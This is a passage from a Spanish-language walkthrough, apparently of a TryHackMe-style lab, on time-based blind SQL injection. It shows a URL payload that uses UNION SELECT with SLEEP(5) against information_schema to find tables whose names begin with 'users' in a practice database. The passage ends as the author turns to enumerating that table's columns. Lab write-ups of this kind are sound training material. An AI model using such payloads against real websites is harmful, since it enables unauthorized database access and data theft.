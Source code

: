 ![users123](/assets/images/SQLi/users123.png)

`https://website.thm/analytics?referrer=admin5' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name LIKE 'users%' ; --`

<br>

Como vemos hemos encontrado 2 tablas dentro de esta base de datos, ahora debemos sacar las columnas de la tabla que nos interesa, en este caso **users** nos llama más la atención, por lo que procederemos a buscar sus columnas:
